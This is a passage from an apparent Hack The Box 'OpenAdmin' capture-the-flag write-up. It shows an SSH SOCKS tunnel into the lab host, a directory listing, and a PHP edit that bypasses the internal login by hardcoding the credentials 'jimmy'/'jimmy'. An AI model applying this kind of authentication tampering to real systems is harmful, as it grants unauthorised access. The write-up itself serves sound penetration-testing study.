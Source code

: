 Let's start by port forwarding localhost to my machine:
```bash
HTB ssh -D 1080 jimmy@10.10.10.171
```

![](assets/images/2024-01-27-HTB-OpenAdmin-writeup-image-4.png)

We see a login page, now let's see how we can bypass it!

```bash
jimmy@openadmin:/var/www/internal$ ls -la
total 20
drwxrwx--- 2 jimmy internal 4096 Jan 27 21:01 .
drwxr-xr-x 4 root  root     4096 Nov 22  2019 ..
-rwxrwxr-x 1 jimmy internal 2980 Jan 27 21:02 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23  2019 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23  2019 main.php
```

Since we have rwx on the file, we can edit it to bypass the password protection all together. I updated the code:
```php
if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && $_POST['password'] == 'jimmy') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
```
